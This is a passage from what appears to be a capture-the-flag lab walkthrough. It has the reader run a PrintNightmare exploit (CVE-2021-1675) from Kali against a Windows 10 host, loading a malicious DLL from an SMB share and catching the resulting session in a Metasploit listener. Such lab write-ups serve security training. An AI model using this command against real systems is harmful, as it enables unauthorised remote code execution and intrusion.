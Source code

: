 ![](./img/going-the-distance-image6.png)

Leave `metasploit` running and launch a new terminal. Now, run the exploit on
Kali. Make sure that the malicious `dll` file is in `/home/user`. 

```
sudo python3 ~/Desktop/ChallengeTasks/Far/CVE-2021-1675.py 'win10/User45:PASSWORD@176.194.115.244' '\\176.194.115.252\smb\evil.dll'
```

![](./img/going-the-distance-image7.png)

You may see an ERROR_DLL_INIT_FAILED message, but a session should show
up in your msfconsole listener.


![](./img/going-the-distance-image8.png)
